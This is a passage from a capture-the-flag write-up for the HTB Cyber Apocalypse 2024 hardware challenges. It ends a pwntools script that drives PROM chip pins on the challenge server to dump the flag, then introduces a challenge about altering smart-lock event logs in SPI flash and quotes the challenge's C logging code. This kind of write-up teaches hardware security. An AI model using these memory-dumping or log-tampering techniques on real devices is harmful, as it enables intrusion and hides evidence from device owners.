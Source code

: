 ```
    print(r.recvuntil("\n")[:-1])
    print(flag)

server = "nc 83.136.251.7 49687"
server = server.split()

r = remote(server[1], server[2])

r.sendlineafter("> ", "set_ce_pin(0.5)")
r.sendlineafter("> ", "set_oe_pin(0.5)")
r.sendlineafter("> ", "set_we_pin(4)")

flag = ""

for i in range(0x7e0, 0x800):
    read_byte(i)

r.interactive()
```

Figure 13 : 

<img alt="The PROM flag" src="https://raw.githubusercontent.com/FirmExtract/FirmExtract-Posts/main/HTB%20Cyber%20Apocalypse%202024%20Hardware%20Challenge%20Writeup/images/image13.jpg" width="100%"><br><br>

# Flash-ing Logs(hard)
<img alt="Flash-ing Logs" src="https://raw.githubusercontent.com/FirmExtract/FirmExtract-Posts/main/HTB%20Cyber%20Apocalypse%202024%20Hardware%20Challenge%20Writeup/images/image14.jpg" width="100%"><br><br>

## Description
* In this challenge, we have to change the log of user id 0x5244. It gives us 2 files `log_event.c` and `client.py`.
    * `log_event.c` is the code for logging. The flash contain logs generated by this code.
    * `client.py` is the code for connecting to flash. We can use this python code to connect to docker. And send commands to flash.
* So our goal is to analyse the `log_event.c` code and edit the logs in flash memory.

Figure 14 : 

```
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <string.h>
#include <wiringPiSPI.h>
#include "W25Q128.h" // Our custom chip is compatible with the original W25Q128XX design

#define SPI_CHANNEL 0 // /dev/spidev0.0
//#define SPI_CHANNEL 1 // /dev/spidev0.1

#define CRC_SIZE 4 // Size of the CRC data in bytes
#define KEY_SIZE 12 // Size of the key

// SmartLockEvent structure definition
typedef struct {
    uint32_t timestamp;   // Timestamp of the event
    uint8_t eventType;    // Numeric code for type of event // 0 to 255 (0xFF)
    uint16_t userId;      // Numeric user identifier // 0 t0 65535 (0xFFFF)
    uint8_t method;       // Numeric code for unlock method
    uint8_t status;       // Numeric code for status (success, failure)
} SmartLockEvent;


// Function Prototypes
```